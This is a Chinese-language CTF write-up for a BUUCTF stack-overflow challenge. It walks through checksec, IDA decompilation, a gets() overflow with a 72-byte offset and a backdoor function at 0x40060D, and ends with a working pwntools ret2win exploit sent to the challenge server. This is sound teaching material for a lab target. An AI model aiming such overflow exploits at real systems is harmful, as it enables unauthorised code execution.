 # 题目

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1743415482353-76a71838-30e8-4066-912f-bea1fd0fa8c1.png)

# 做法

扔进虚拟机checksec

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1743415563502-b82659f7-98a6-4013-a2a9-d709d4c29bc5.png)

64位，没开栈保护

扔进IDA（64位），找到main，F5反编译

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1743415741883-dd6f5571-c34c-4f89-92de-6de26143071d.png)

跟上一题差不多，其他没啥作用

然后我们看到`sprintf` 函数，它和gets函数差不多，都可以导致栈溢出

但`sprintf` 函数在我们输入的末尾添加换行符 `\n`了，无法造成栈溢出，也就是我们无法利用`sprintf` 函数进行栈溢出，只能利用gets函数

`(sprintf` 函数不会检查目标缓冲区 `str` 的大小，如果格式化后的字符串长度超过了缓冲区的大小，就会导致缓冲区溢出）

（gets函数不会检查输入字符串的长度，若用户输入的字符串长度超过了 `str` 所指向数组的大小，就会发生缓冲区溢出。）

我们点进v5

完整代码，v5显示的是var_40

```
-0000000000000080 ; D/A/*   : change type (data/ascii/array)
-0000000000000080 ; N       : rename
-0000000000000080 ; U       : undefine
-0000000000000080 ; Use data definition commands to create local variables and function arguments.
-0000000000000080 ; Two special fields " r" and " s" represent return address and saved registers.
-0000000000000080 ; Frame size: 80; Saved regs: 8; Purge: 0
-0000000000000080 ;
-0000000000000080
-0000000000000080 s               db ?
-000000000000007F                 db ? ; undefined
-000000000000007E                 db ? ; undefined
-000000000000007D                 db ? ; undefined
-000000000000007C                 db ? ; undefined
-000000000000007B                 db ? ; undefined
-000000000000007A                 db ? ; undefined
-0000000000000079                 db ? ; undefined
-0000000000000078                 db ? ; undefined
-0000000000000077                 db ? ; undefined
-0000000000000076                 db ? ; undefined
-0000000000000075                 db ? ; undefined
-0000000000000074                 db ? ; undefined
-0000000000000073                 db ? ; undefined
-0000000000000072                 db ? ; undefined
-0000000000000071                 db ? ; undefined
-0000000000000070                 db ? ; undefined
-000000000000006F                 db ? ; undefined
-000000000000006E                 db ? ; undefined
-000000000000006D                 db ? ; undefined
-000000000000006C                 db ? ; undefined
-000000000000006B                 db ? ; undefined
-000000000000006A                 db ? ; undefined
-0000000000000069                 db ? ; undefined
-0000000000000068                 db ? ; undefined
-0000000000000067                 db ? ; undefined
-0000000000000066                 db ? ; undefined
-0000000000000065                 db ? ; undefined
-0000000000000064                 db ? ; undefined
-0000000000000063                 db ? ; undefined
-0000000000000062                 db ? ; undefined
-0000000000000061                 db ? ; undefined
-0000000000000060                 db ? ; undefined
-000000000000005F                 db ? ; undefined
-000000000000005E                 db ? ; undefined
-000000000000005D                 db ? ; undefined
-000000000000005C                 db ? ; undefined
-000000000000005B                 db ? ; undefined
-000000000000005A                 db ? ; undefined
-0000000000000059                 db ? ; undefined
-0000000000000058                 db ? ; undefined
-0000000000000057                 db ? ; undefined
-0000000000000056                 db ? ; undefined
-0000000000000055                 db ? ; undefined
-0000000000000054                 db ? ; undefined
-0000000000000053                 db ? ; undefined
-0000000000000052                 db ? ; undefined
-0000000000000051                 db ? ; undefined
-0000000000000050                 db ? ; undefined
-000000000000004F                 db ? ; undefined
-000000000000004E                 db ? ; undefined
-000000000000004D                 db ? ; undefined
-000000000000004C                 db ? ; undefined
-000000000000004B                 db ? ; undefined
-000000000000004A                 db ? ; undefined
-0000000000000049                 db ? ; undefined
-0000000000000048                 db ? ; undefined
-0000000000000047                 db ? ; undefined
-0000000000000046                 db ? ; undefined
-0000000000000045                 db ? ; undefined
-0000000000000044                 db ? ; undefined
-0000000000000043                 db ? ; undefined
-0000000000000042                 db ? ; undefined
-0000000000000041                 db ? ; undefined
-0000000000000040 var_40          db ?
-000000000000003F                 db ? ; undefined
-000000000000003E                 db ? ; undefined
-000000000000003D                 db ? ; undefined
-000000000000003C                 db ? ; undefined
-000000000000003B                 db ? ; undefined
-000000000000003A                 db ? ; undefined
-0000000000000039                 db ? ; undefined
-0000000000000038                 db ? ; undefined
-0000000000000037                 db ? ; undefined
-0000000000000036                 db ? ; undefined
-0000000000000035                 db ? ; undefined
-0000000000000034                 db ? ; undefined
-0000000000000033                 db ? ; undefined
-0000000000000032                 db ? ; undefined
-0000000000000031                 db ? ; undefined
-0000000000000030                 db ? ; undefined
-000000000000002F                 db ? ; undefined
-000000000000002E                 db ? ; undefined
-000000000000002D                 db ? ; undefined
-000000000000002C                 db ? ; undefined
-000000000000002B                 db ? ; undefined
-000000000000002A                 db ? ; undefined
-0000000000000029                 db ? ; undefined
-0000000000000028                 db ? ; undefined
-0000000000000027                 db ? ; undefined
-0000000000000026                 db ? ; undefined
-0000000000000025                 db ? ; undefined
-0000000000000024                 db ? ; undefined
-0000000000000023                 db ? ; undefined
-0000000000000022                 db ? ; undefined
-0000000000000021                 db ? ; undefined
-0000000000000020                 db ? ; undefined
-000000000000001F                 db ? ; undefined
-000000000000001E                 db ? ; undefined
-000000000000001D                 db ? ; undefined
-000000000000001C                 db ? ; undefined
-000000000000001B                 db ? ; undefined
-000000000000001A                 db ? ; undefined
-0000000000000019                 db ? ; undefined
-0000000000000018                 db ? ; undefined
-0000000000000017                 db ? ; undefined
-0000000000000016                 db ? ; undefined
-0000000000000015                 db ? ; undefined
-0000000000000014                 db ? ; undefined
-0000000000000013                 db ? ; undefined
-0000000000000012                 db ? ; undefined
-0000000000000011                 db ? ; undefined
-0000000000000010                 db ? ; undefined
-000000000000000F                 db ? ; undefined
-000000000000000E                 db ? ; undefined
-000000000000000D                 db ? ; undefined
-000000000000000C                 db ? ; undefined
-000000000000000B                 db ? ; undefined
-000000000000000A                 db ? ; undefined
-0000000000000009                 db ? ; undefined
-0000000000000008                 db ? ; undefined
-0000000000000007                 db ? ; undefined
-0000000000000006                 db ? ; undefined
-0000000000000005                 db ? ; undefined
-0000000000000004                 db ? ; undefined
-0000000000000003                 db ? ; undefined
-0000000000000002                 db ? ; undefined
-0000000000000001                 db ? ; undefined
+0000000000000000  s              db 8 dup(?)
+0000000000000008  r              db 8 dup(?)
+0000000000000010
+0000000000000010 ; end of stack variables
```

经典栈溢出问题，跟上一道题一样

从上往下数，从var_40到最后一个s是64（即v5的长度为64）然后加上返回函数的8个字节（可以理解成把s的大小加上，刚刚好到达r），共是72，下面那个r代表的是返回地址，我们在这里写入后门函数地址

Shift+F12打开string窗口，一键找出所有的字符串，去寻找它的后门函数

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1743417325639-a2956c07-bfba-4bf7-84c0-243e4849d40d.png)

我们看到system函数

点进去

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1743417351384-a6a9d4a7-bbc0-4421-824a-c50b3cfe10b0.png)

Ctrl+x看看是哪个函数调用了

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1743417534135-2fb842c3-fcae-4619-9f5e-ad9a0d085a6e.png)

发现没有啥，然后我们回去，发现了cat flag.txt

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1743417505582-28ad18c8-e032-4bb1-adb0-a982952ada55.png)

操作同上

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1743417630543-e4e3f297-cf45-4b68-9720-d80a2baec8f3.png)

找到后门函数地址40060D

编写exp

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1743420021383-6935c175-62a9-4bc1-aac9-9614288fc17e.png)

代码如下

```
#导入pwntools模块：
from pwn import *

#和靶机进行连接：
r = remote("node5.buuoj.cn",29343)

#定义 payload
payload = b'a' * 72+ p64(0x40060D)

#发送payload
r.sendline(payload)

#获取靶机交互式终端：
r.interactive()
```

payload不懂的请移步至本系列上篇代码注释（rip 1的方法二)

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1743420152470-f7fa68c7-5f3a-4027-bf21-0bd1755bb75a.png)

最后，得出flag

# 更新

于2025.4.7